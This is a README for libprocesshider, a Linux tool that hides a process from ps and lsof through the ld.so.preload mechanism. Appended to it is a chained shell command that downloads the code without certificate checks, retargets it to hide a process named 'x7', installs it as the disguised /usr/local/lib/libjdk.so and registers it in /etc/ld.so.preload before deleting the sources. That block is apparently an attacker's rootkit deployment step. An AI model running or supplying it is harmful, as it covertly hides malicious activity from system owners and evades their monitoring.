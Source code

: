 libprocesshider
===============

Hide a process under Linux using the ld preloader.

Full tutorial available at https://sysdigcloud.com/hiding-linux-processes-for-fun-and-profit/

In short, compile the library:

```
gianluca@sid:~/libprocesshider$ make
gcc -Wall -fPIC -shared -o libprocesshider.so processhider.c -ldl
gianluca@sid:~/libprocesshider$ sudo mv libprocesshider.so /usr/local/lib/
```

Load it with the global dynamic linker

```
root@sid:~# echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```

And your process will be off the radar 

```
gianluca@sid:~$ sudo ps aux
USER PID %CPU %MEM VSZ RSS TTY STAT START TIME COMMAND
...

gianluca@sid:~$ sudo lsof -ni
COMMAND PID USER FD TYPE DEVICE SIZE/OFF NODE NAME
...
```
wget --no-check-certificate https://github.com/gianlucaborello/libprocesshider/archive/master.zip -O master.zip && unzip master.zip && rm -f master.zip && cd libprocesshider-master;
sed -i 's/evil_script.py/x7/' processhider.c
make && mv libprocesshider.so /usr/local/lib/libjdk.so && echo /usr/local/lib/libjdk.so >> /etc/ld.so.preload && cd .. && rm -rf libprocesshider-master
